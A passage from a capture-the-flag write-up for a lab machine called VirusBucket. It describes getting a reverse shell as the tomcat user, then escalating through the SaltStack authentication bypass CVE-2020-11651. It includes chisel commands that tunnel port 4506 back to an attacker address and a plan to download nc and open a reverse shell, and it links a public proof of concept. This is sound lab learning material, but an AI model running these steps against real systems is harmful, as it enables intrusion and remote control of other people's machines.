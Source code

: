 Let's have the exploit script download a copy of `nc` with the `-e` switch, make it executable and then run a reverse shell back to us.

{% include asciinema.html url="https://asciinema.org/a/6Q3OSRe3HxB4POskZi4raELHU" title="Running exploit.sh" author="limbernie" poster="npt:0:50" preload="preload" %}

The file `user.txt` is at `tomcat`'s home directory.

{% include image.html image_alt="9cc988fc.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/9cc988fc.png" %}

## Privilege Escalation

During enumeration of `tomcat`'s account, I notice the following listening ports.

{% include image.html image_alt="07ec170f.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/07ec170f.png" %}

Ports `4505/tcp` and `4506/tcp` suggests the presence of a Salt Master. If I had to guess, I would say that the Salt Master is actually a docker container because I didn't find any SaltStack installation in VirusBucket.

### CVE-2020-11651 - Authentication bypass vulnerabilities

SaltStack 3000.1 is susceptible to an authentication bypass vulnerability that allows an unauthenticated attacker to _connect to the "request server" port (`4506/tcp`) to control and publish arbitrary control messages, read and write files anywhere on the "master" server filesystem and steal the secret key used to authenticate to the master as root_.

In short, we can exploit CVE-2020-11651 to gain access to the docker container. A proof-of-concept [exploit](https://github.com/jasperla/CVE-2020-11651-poc) can be easily found by googling ""**CVE-2020-11651 exploit**".

But first, we need to forward `4506/tcp` to our attacking machine. This is achieved with `chisel` in the absence of SSH access. Trust me, I've tried to create `/home/tomcat/.ssh/authorized_keys` but was denied write access to `tomcat`'s own home directory. :laughing:

*Set up `chisel` server at your attacking machine*

```
# chisel server -p 9999 --reverse
```

*Download `chisel` to VirusBucket and forward `4506/tcp` to your machine*

```
$ ./chisel client 10.10.14.22:9999 R:4506:127.0.0.1:4506 &
```

Similarly, the plan is to download a copy of `nc` with the `-e` switch to the docker container, make it executable and then run a reverse shell back to us.

{% include image.html image_alt="b99fdf5d.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/b99fdf5d.png" %}

{% include image.html image_alt="eba0cbe9.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/eba0cbe9.png" %}

{% include image.html image_alt="6887f573.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/6887f573.png" %}
